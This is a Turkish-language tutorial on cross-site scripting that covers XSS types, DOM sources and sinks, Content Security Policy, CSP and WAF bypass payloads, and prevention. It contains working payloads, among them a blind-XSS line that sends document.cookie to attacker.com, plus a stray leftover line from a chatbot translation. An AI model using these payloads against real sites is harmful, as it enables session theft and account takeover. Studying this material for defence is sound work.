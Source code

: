 # XSS (Cross-Site Scripting)
XSS açıkları, saldırganın kurban kullanıcı gibi davranmasına, kullanıcının yapabileceği tüm işlemleri gerçekleştirmesine ve kullanıcıya ait verilere erişmesine olanak tanır. Eğer kurban kullanıcı uygulama içinde ayrıcalıklı yetkilere sahipse, saldırgan uygulamanın tüm işlevselliği ve verileri üzerinde tam kontrol sağlayabilir.

XSS, güvenlik açığı bulunan bir web uygulamasının kullanıcıya kötü amaçlı JavaScript kodu döndürmesi ile ortaya çıkar. Bu kod kurbanın tarayıcısında çalıştığında, saldırgan kurbanın uygulama ile olan etkileşimini tamamen ele geçirebilir.

## XSS Türleri
Üç ana XSS türü vardır:

* Reflected XSS – Kötü amaçlı script, mevcut HTTP isteğinden gelir.
* Stored XSS – Kötü amaçlı script, veritabanı gibi kalıcı bir depodan gelir.
* DOM-based XSS – Açık, sunucu tarafında değil istemci tarafındaki JavaScript kodunda bulunur.
* Blind XSS – Kötü amaçlı script, doğrudan kullanıcıya görünmeden genellikle yönetici panelleri, log dosyaları veya arka uç sistemlerinde tetiklenir ve saldırgan, payload’un çalıştığını bir call-back mekanizmasıyla gözlemler.

## Reflected XSS
Reflected XSS, kullanıcının girdiği verinin sunucuya ulaştıktan sonra herhangi bir filtreleme veya sanitizasyon yapılmadan HTTP yanıtına dahil edilmesiyle oluşur.

Bu açık Non-Persistent olarak sınıflandırılır; sayfa kapatıldığında veya yenilendiğinde saldırı etkisiz hale gelir.

Örnek:
```html
https://insecure-website.com/status?message=All+is+well
<p>Status: All is well.</p>
```

Saldırgan URL’yi şu şekilde değiştirebilir:
```html
https://insecure-website.com/status?message=<script>alert('XSS')</script>
```

Kurban bu bağlantıya tıkladığında, script tarayıcıda kurbanın oturumu bağlamında çalışır.

## Stored XSS
Stored XSS (Persistent XSS), saldırganın enjekte ettiği kodun kalıcı olarak depolanması ve her görüntülendiğinde çalışması durumunda oluşur. Bu veri, veritabanına, loglara veya başka kalıcı depolama alanlarına kaydedilebilir.

Stored XSS en tehlikeli XSS türüdür; çünkü sayfayı ziyaret eden her kullanıcı saldırıdan etkilenir. Ayrıca genellikle manuel müdahale olmadan temizlenemez.

Örnek:
```html
<p>Hello, this is my message!</p>
```

Saldırgan şu şekilde veri gönderebilir:
```html
<p><script>alert('XSS')</script></p>
```

Bu içerik veritabanına kaydedilir ve her görüntülendiğinde çalışır.

## Blind XSS 
Blind XSS, saldırganın payload’unun doğrudan kullanıcıya görünmeden, genellikle yönetici panelleri veya log sistemleri gibi arka planda çalışan alanlarda tetiklenmesiyle ortaya çıkar. Payload çalıştığında saldırgan, bir call-back mekanizmasıyla (ör. Burp Collaborator) tetiklemeyi gözlemler. Blind XSS için tipik bir payload, tetiklendiğinde saldırganın kontrolündeki bir sunucuya HTTP isteği gönderen basit bir JavaScript olabilir.
Örnek:

```html
<script src="https://attacker.com/collect.js"></script>
```

veya doğrudan bir fetch ile:

```html
<script>
fetch('https://attacker.com/log?cookie=' + document.cookie);
</script>
```

Bu payload, kullanıcıya görünmeden arka planda çalışır ve saldırganın sunucusuna veri gönderir.

## DOM-based XSS
DOM-based XSS, tamamen istemci tarafında (client-side) çalışan JavaScript kodunun kullanıcı girdisini filtrelemeden DOM’a yazması ile ortaya çıkar. Bu tür XSS, sunucuya gönderilen veri üzerinden değil, tarayıcıdaki Document Object Model (DOM) manipülasyonu ile tetiklenir.

Örnek:
```js
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

Eğer saldırgan `search` alanının değerini kontrol edebiliyorsa şu payload çalışabilir:

```html
<img src=1 onerror="alert('XSS')">
```

### Source & Sink
DOM-based XSS’i anlamak için Source ve Sink kavramlarını bilmek önemlidir:

* Source: Kullanıcı girdisini alan JavaScript nesnesi (örn. URL parametresi, form input’u).
* Sink: Kullanıcı girdisini DOM’a yazan fonksiyon. Eğer filtrasyon yapılmazsa XSS oluşur.

Sık kullanılan Sink fonksiyonları:
```javascript
document.write()
element.innerHTML
element.outerHTML
```

jQuery’de sık kullanılan Sink fonksiyonları:
```javascript
add()
after()
append()
```

Bu fonksiyonlar girdiyi doğrudan DOM’a yazarsa ve giriş doğrulaması yapılmazsa sayfa XSS’e açıktır.

## Content Security Policy
Content Security Policy (CSP), Cross-Site Scripting (XSS), clickjacking gibi belirli istemci tarafı saldırılarını tespit etmek ve sınırlandırmak için ek bir korumadır. Sunucu seviyesinde yapılandırılır. Yöneticiler, bir sayfa yüklendiğinde tarayıcıların uyması gereken kuralları tanımlar. Örneğin, hangi kaynaklardan script, resim veya diğer kaynakların yüklenebileceğini belirleyebilirler.

CSP iki şekilde tanımlanabilir:
- Sunucu yanıtına Content-Security-Policy HTTP header’ı ekleyerek.
- HTML sayfalarında <meta> etiketi kullanarak.

### Content Security Policy’nin Ana Direktifleri
Bir CSP, directive adı verilen kurallardan oluşur. Her direktif, belirli kaynakların yüklenmesi ve çalıştırılması için kısıtlamalar tanımlar.

#### Directive türleri:
- Fetch directives → Tarayıcıya verilerin nasıl yükleneceğini söyler.
- Diğer direktifler → Tarama, belge ve raporlama gibi ek güvenlik kontrolleri içerir.

#### Fetch directives
- default-src → Başka bir direktif tanımlanmazsa varsayılan kaynak.
- script-src → JavaScript ve WebAssembly için geçerli kaynaklar.
- script-src-elem → <script> tag’leri için geçerli kaynaklar (yoksa script-src kullanılır).
- frame-src → <frame> ve <iframe> için geçerli kaynaklar.
- img-src → Görseller için geçerli kaynaklar.
- style-src → CSS dosyaları için geçerli kaynaklar.
- font-src → Fontlar için geçerli kaynaklar.

#### Diğer önemli direktifler
- sandbox → İçeriği izole eden sandbox modunu aktif eder (<iframe> gibi).
- require-trusted-types-for → DOM tabanlı XSS saldırılarını sınırlamak için “trusted types” kullanımını zorunlu kılar.
- trusted-types → Sadece izin verilen “Trusted Types” tanımlarını çalıştırır.
- upgrade-insecure-requests → HTTP isteklerini otomatik olarak HTTPS’e çevirir.
- frame-ancestors → <frame>, <iframe>, <object>, <embed> ve <applet> için izin verilen kaynakları sınırlar.
- form-action → Formların gönderilebileceği URL’leri sınırlar.
- base-uri → <base> etiketi için geçerli kaynakları sınırlar.

#### Fetch Directives için Olası Değerler
- 'none' → Kaynağı tamamen engeller.
- 'self' → Yalnızca aynı origin’den yükleme yapılmasına izin verir.
- [host-source] → Özel bir domain veya IP tanımlar.
- [scheme-source] → Belirli bir protokole izin verir (https:, data:, ws:, vb.).
- → Herhangi bir alt domain, host veya port’a izin verir.
- 'nonce-[değer]' → Sunucu tarafından her yanıt için üretilen rastgele bir nonce değeri.
- 'unsafe-eval' → eval() gibi metin tabanlı JavaScript çalıştırılmasına izin verir.
- 'unsafe-inline' → Inline script, event attribute (onclick) ve javascript: URL’lerine izin verir.
- Yanlış yapılandırılmış değerler, özellikle XSS saldırılarına kapı açabilir.

### Content Security Policy Örneği
Sunucu, tarayıcıya CSP’yi HTTP yanıtında iletebilir:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://*.example.com; object-src 'none'; img-src 'self' data: *.example.com;
```

Bu konfigürasyon:
- default-src 'self' → Tanımsız tüm kaynak türleri sadece aynı origin’den yüklenir.
- script-src 'self' https://*.example.com → Sadece example.com alt domainlerinden script yüklenir.
- object-src 'none' → <object> ve <embed> tamamen yasak.
- img-src 'self' data: .example.com → Görseller sadece self, data: şeması ve example.com alt domainlerinden yüklenebilir.

### CSP Bypass Teknikleri
#### unsafe-inline kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';
```

Bu durumda inline script’ler çalışabilir:
```js
<script>alert(1);</script>
```

#### unsafe-eval kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:;
```

eval() veya Function() çağrıları yapılabilir. Ayrıca data: şemasıyla Base64 kodlu script çalıştırılabilir:
```js
<script src="data:;base64,YWxlcnQoMSk="></script>
```

#### script-src'de wildcard (*) kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src https://example.com *;
```

Saldırgan kendi sunucusundan script yükleyebilir:
```js
<script src="https://evil.example.at"></script>
```

### object-src ve default-src eksikliği
```http
Content-Security-Policy: script-src 'self'; img-src 'self';
```

```<object>``` etiketi ile Base64 kodlu zararlı script yüklenebilir:
```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

#### JSONP endpoint istismarı
```http
Content-Security-Policy: default-src 'none'; script-src https://hello.example.com/test.js https://accounts.google.com/o/oauth2/revoke;
```

İzin verilen domainlerde JSONP endpoint varsa callback parametresi ile XSS yapılabilir:
```url
https://accounts.google.com/o/oauth2/revoke?callback=alert(1)
```
## WAF Bypass
Tabii, verdiğin içeriği teknik terimlerini koruyarak Türkçeye çevirebilirim:

---

## WAF Bypass Teknikleri

### String Kodlama (String Encoding)

#### Base64 Kodlama:
```javascript
btoa("alert(1)");  // Base64'e kodlar
atob("YWxlcnQoMSk=");  // Base64'ten tekrar "alert(1)" olarak çözer
```

#### Octal ve Heksadesimal Kodlama:
```javascript
\\141\\154\\145\\162\\164(1);  // "alert(1)" için sekizlik
\\x61\\x6c\\x65\\x72\\x74(1);  // "alert(1)" için hex
```

#### Unicode Escaping:
```javascript
al\\u0065rt(1);  // Unicode kullanarak "alert(1)"
```

#### Decimal Kodlama:
```javascript
String.fromCharCode(97, 108, 101, 114, 116)(1);  // "alert(1)" çıktısı
```

#### String Birleştirme:
```javascript
var a = "al";
var b = "ert(1)";
a.concat(b);  // "alert(1)" çıktısı
```

### Parantez Engellerini Bypass Etme
Bazı WAF’ler parantez veya alert() gibi belirli fonksiyonları engeller. Alternatifler:

#### Backtick Kullanımı:
```javascript
alert`1`;  // Parantez kullanmadan alert
```

#### Event Handler Kullanımı:
```html
<img src="nonexistent.jpg" onerror="alert(1); throw 'Error';">
```

#### Throw Syntax Kullanımı:
```javascript
throw onerror=alert, "aaaa", "bbbb";
```

### Fonksiyon Kara Listeleri ve Alternatifler
Eval() engellenmişse, aynı etkiyi sağlayacak alternatifler kullanılabilir:

```javascript
// Engellenmiş: eval("alert(1)");
// Alternatifler:
setTimeout("\\x61\\u{65}\\162t(2)");
setInterval("\\x61\\u{65}\\162t(2)");
Function("alert(2)")``;
Function("alert(2)")();
(Function("alert(2)"))();
Function("alert(1)")();  // eval kullanmadan
```

#### Unicode ile Fonksiyon Çağrısı:
```javascript
\\x61\\u{65}\\162t(2);  // alert(2) ile aynı
```

### Dot Notation ve window Engellerini Bypass Etme
Dot notation (ör. `document.cookie`) engellenmişse köşeli parantez kullan:

```javascript
document["cookie"];  // document.cookie yerine
```

Window kullanımını engelleyen WAF’ler için alternatifler:
```javascript
top;    // window.alert yerine
self;   // self veya top kullan
frames; // frames veya parent
parent;
this;
```

#### Array Kullanımı:
```javascript
[20].find(alert);   
[document.cookie].find(prompt);
```

#### Gelişmiş Array Metodları:
```javascript
[document.cookie].forEach(prompt);  
[document.cookie].filter(alert);    
[document.cookie].map(alert);
```

#### Global Object Bypass:
```javascript
globalThis;  
globalThis ;
```

### Tag Kapatma
HTML’de çalıştırılamayan tag’leri kapatıp payload ekleme:

```html
<style>/* CSS, script çalışmaz */</style><script>alert(1)</script>
<title>Page Title</title><script>alert(1)</script>
<noembed>Fallback content</noembed><script>alert(1)</script>
<template>This is template content</template><script>alert(1)</script>
<noscript>Content when JS disabled</noscript><script>alert(1)</script>
<textarea>User entered text</textarea><script>alert(1)</script>
<!-- HTML Comment --> <script>alert(1)</script>
```

### iframe ile Payload

```html
<iframe src="data:text/html, <svg onload=alert(2)>">
<iframe src="data:text/html;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+"></iframe> <!-- alert(2) -->
```

## XSS Saldırılarını Önlemek
CSP, XSS gibi zafiyetlerin kötüye kullanılmasını sınırlayan veya önleyen ek bir koruma katmanı sağlar. Bu saldırılara karşı ilk savunma hattı hâlâ input validation ve output encoding yöntemleridir. Genel olarak, CSP aşağıdaki noktalar dikkate alınmalıdır:

* Restriktif bir default-src direktifi tanımlayın.
* Sıkı bir object-src direktifi uygulayın (ideal olarak none).
* unsafe-eval ve unsafe-inline değerlerinden kaçının. Genel kural olarak, ‘unsafe’ içeren direktifleri yasaklayın; yalnızca etkilerini tam olarak anladığınızda izin verin.
* Harici sunuculardan script yüklemeye izin vermeyin.
* Wildcard (*) kullanımını en aza indirin.
* Güvenliği güçlendirmek için nonce kullanın.
* CSP’nizin sağlamlığını özel araçlar kullanarak test edin

Referanslar:
- https://www.vaadata.com/blog/content-security-policy-bypass-techniques-and-security-best-practices/